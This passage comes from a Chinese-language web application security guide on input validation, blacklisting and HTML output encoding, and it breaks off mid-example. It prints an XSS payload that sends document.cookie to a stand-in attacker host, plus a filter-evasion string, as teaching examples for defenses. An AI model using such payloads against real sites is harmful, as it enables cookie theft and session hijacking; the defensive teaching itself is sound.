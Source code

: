```
<script>new Image().src = ‘http://evil.martinfowler.com/steal?' + document.cookie</script>
```

这种情况下你就会面临一个用来盗取你的 Cookies 的 XSS 攻击代码，如果你一定要给用户反馈，你必须保证不会把不受信任的用户内容直接返回，而应该使用固定的提示信息。如果你不可避免地要把用户的输入反馈回去，你要保证它是被编码的。

## In Practice

实践中，我们经常要通过过滤`<script>`标签来避免一些攻击，过滤掉这些包含着危险值的输入的方法就是所谓的**negative validation **或者**blacklisting**。不过这种方法的麻烦之处在于潜在的危险输入是相当多的，很多时候不能胜数。维持一个庞大的危险输入的列表可能是耗费较大的操作，这需要进行频繁地更新。如果你真的需要一个黑名单，这就需要覆盖你所有的测试用例，编写高质量的测试代码，遵循 OWASP 的[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)原则。对于危险输入的过滤，我们常常称之为**sanitization**，即是在输入中移除那些黑名单中的元素而不是直接拒绝。不过这种黑名单机制，很难保证完全正确，往往也会给攻击者更多地漏洞机会。譬如，在上面的例子中，我们是选择移除`<script>`标签，而一个攻击者可以通过输入下面这样的字符串来逃避检查：

```
<scr<script>ipt>
```

在现代的 Web 应用程序开发中，已经有很多现成的框架提供了基础的过滤功能。内建的对于邮件地址、信用卡号码等等过滤还是灰常好用的，使用这些网络框架提供的验证机制可以有效避免一些严重的错误，譬如： | Framework | Approaches | | ---------------------------------------- | ---------------------------------------- | | Java | Hibernate (Bean Validation) | | ESAPI | | | Spring | Built-in type safe params in Controller | | Built-in Validator interface (Bean Validation) | | | Ruby on Rails | Built-in Active Record Validators | | ASP.NET | Built-in Validation (see BaseValidator) | | Play | Built-in Validator | | Generic JavaScript | xss-filters | | NodeJS | validator-js | | General | Regex-based validation on application inputs |

## In Summary

* 尽可能地使用白名单
* 在不能用白名单的时候用黑名单
* 尽可能地使用严格约定
* 确保警示潜在的攻击
* 避免直接地输入反馈
* 尽可能地在不可信数据深入系统逻辑之前进行处理，或者直接使用你的框架的白名单机制

# Encode HTML Output:HTML 输出内容编码

除了上述所说的对于输入的过滤与限制之外，Web 应用的开发者还需要关注返回的数据。一个现代的 Web 应用往往会用 HTML 标记来构建文档结构，用 CSS 来构建文档样式，JavaScript 来构建应用逻辑。一个 HTML 文档通常使用像`<script>`或者`<style>`这样的标记来进行切割。用户可能在没料到的地方使用尖括号，特别是在一个可执行的上下文中附着一些特定内容，譬如 HTML 与 JavaScript 都会包含 URL，只不过它们各有各的处理方法。

## Output Risks

HTML 本身是一个非常非常宽松自由的格式，浏览器会尽可能地来渲染内容，即使发现了些格式错误。这一点对于开发者非常友好，不过这也是一个很大的漏洞的源泉。攻击者可能在向你的页面中注入一些内容来打破可执行的上下文，甚至不需要考虑整个页面是否有效。处理输出内容并不一定是安全地考虑，应用从数据库与上游服务中获取的渲染数据务必保证不会影响到整个应用，不过从不可信的数据源得到的渲染内容还是会存在很大的风险。就如上文所说的，开发者应该拒绝那些超出约定的输入，不过有时候我们不可避免的需要接收像尖括号那样的可能更改我们的代码的内容，这也就是下面所说的**output encoding**所需要起作用的地方。

## Output Encoding

输出编码即是将输出的数据流转化为最终的输出的格式，输出编码的难点或者复杂的地方在于需要根据输出数据流向的不同选定不同的编码方式。如果没有合适的编码方式，应用可能会给客户端提供一个错误格式的数据，导致输出数据不可用乃至于存在一定风险。攻击者往往会利用错误的编码方式中的漏洞使得整个输出数据的结构失控。譬如在我们的电商系统中有个用户叫做 Sandra Day O'Connor，系统会在该用户登录的时候输出一个欢迎辞，那么当她的名字渲染到 HTML 页面上的时候，效果大概是这样的：

